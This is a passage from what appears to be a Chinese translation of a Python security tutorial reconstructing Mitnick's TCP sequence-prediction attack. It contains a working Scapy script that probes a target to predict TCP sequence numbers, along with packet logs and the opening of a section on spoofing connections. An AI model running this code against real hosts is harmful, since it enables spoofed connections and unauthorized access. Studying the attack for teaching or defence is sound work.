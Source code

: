 ```
2022464000:2022464000(0) ack 1382726996 win 4096
14:18:28.811591 apollo.it.luc.edu.995 > x-terminal.shell: R
1382726996:1382726996(0) win 0
<..SNIPPED..> 
```

为了在 Python 中重现，我们将发送 TCP SYN 数据包并等待 TCP SYN-ACK 数据包。一旦收到，我们将从 ACK 中剥离 TCP 序列号并打印到屏幕上。我们进重复 4 次确认一个规律的存在。注意，使用`Scapy`，我们不需要完整的 TCP 和 IP 字段：`Scapy`将用值填充他们。此外，它将从我们默认的源地址发送。我们的新函数`callSYN()`将会接受一个 IP 地址返回写一个 ACK 序列号(当前的序列号加上变化)。

```
from scapy.all import *
def calTSN(tgt):
    seqNum = 0
    preNum = 0
    diffSeq = 0
    for x in range(1, 5):
        if preNum != 0:
            preNum = seqNum
        pkt = IP(dst=tgt) / TCP()
        ans = sr1(pkt, verbose=0)
        seqNum = ans.getlayer(TCP).seq
        diffSeq = seqNum - preNum
        print '[+] TCP Seq Difference: ' + str(diffSeq)
    return seqNum + diffSeq

tgt = "192.168.1.106"
seqNum = calTSN(tgt)
print "[+] Next TCP Sequence Number to ACK is: "+str(seqNum+1) 
```

运行我们的代码攻击一个脆弱的目标，我们可以看到 TCP 系列号的随机性是不存在的，目标和 Shimomura 的机器有相同的序列号差值。注意，默认情况下，`Scapy`会使用默认的目标 TCP 端口 80。目标必须有一个服务正在监听，不管你尝试欺骗连接那个端口。

```
mitnick# python calculateTSN.py
[+] TCP Seq Difference: 128000
[+] TCP Seq Difference: 128000
[+] TCP Seq Difference: 128000
[+] TCP Seq Difference: 128000
[+] Next TCP Sequence Number to ACK is: 2024371201 
```

## 欺骗 TCP 连接

有了正确的 TCP 序列号在手，米特尼克可以攻击了。米特尼克使用的序列号是`2024371200`，大约初始化 SYN 后的 150 个 SYN 数据包发送过去用来侦查。首先，它从新的沉默服务器欺骗了一个连接。然后他发送了一个序列号是`2024371201`盲目的 ACK 数据包，表明已经建立了正确的连接。

```
14:18:36.245045 server.login > x-terminal.shell: S
1382727010:1382727010(0) win 4096
14:18:36.755522 server.login > x-terminal.shell: .ack2024384001 win
4096 
```
